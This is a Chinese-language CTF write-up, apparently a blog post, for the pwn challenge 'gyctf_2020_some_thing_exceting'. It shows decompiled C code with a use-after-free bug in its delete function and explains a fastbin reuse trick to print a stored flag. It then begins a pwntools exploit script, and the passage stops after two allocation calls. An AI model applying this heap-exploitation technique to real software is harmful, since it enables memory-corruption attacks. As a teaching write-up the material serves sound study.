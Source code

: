 该程序有三个功能，编辑功能其实会让我们退出程序，只有增加、删除和输出功能。

增加功能会申请一块0x10大小的空间，用来存储接下来申请的两块chunk的地址，然后接下来申请的空间的大小不能超过0x70。

漏洞出现在删除函数中，这里只是将其free掉，没有置零，存在UAF漏洞。

```
unsigned __int64 sub_400C24()
`{`
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#    Delete Banana    #");
  puts("#---------------------#");
  printf("&gt; Banana ID : ");
  _isoc99_scanf("%d", &amp;v1);
  if ( v1 &lt; 0 || v1 &gt; 10 || !*(&amp;ptr + v1) )
  `{`
    puts("Emmmmmm!Maybe you want Fool me!");
    lea();
  `}`
  free(*(void **)*(&amp;ptr + v1));
  free(*((void **)*(&amp;ptr + v1) + 1));
  free(*(&amp;ptr + v1));
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
`}`
```

那么我们就可以先申请两次chunk，然后分别free掉，此时fastbins情况如下图，其中0x13d4320中存储了chunk1的地址，0x13d4240中存储了chunk0的地址，此时我们再一次进行申请，申请大小为0x10，由于FILO的原则，我们的 `ba` 会申请到0x13d4240的地址，如果我们将之前存储了flag的变量的地址写入，然后对chunk0进行输出，就可以将flag直接输出了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016d6073aaca687154.png)

exp:

```
from pwn import *

io = process('./gyctf_2020_some_thing_exceting')
# io = remote('node3.buuoj.cn', 29924)

def add(ba_length, ba, na_length, na):
    io.sendlineafter('want to do :', str(1))
    io.sendlineafter('ba\'s length : ', str(ba_length))
    io.sendlineafter('&gt; ba : ', ba)
    io.sendlineafter('na\'s length : ', str(na_length))
    io.sendlineafter('&gt; na : ', na)

def delete(index):
    io.sendlineafter('want to do :', str(3))
    io.sendlineafter('&gt; Banana ID : ', str(index))

def display(index):
    io.sendlineafter('want to do :', str(4))
    io.sendlineafter('&gt; SCP project ID : ', str(index))
    io.recvuntil('# Banana\'s ba is ')

add(0x50, 'ba', 0x50, 'na') # 0
add(0x50, 'ba', 0x50, 'na') # 1
```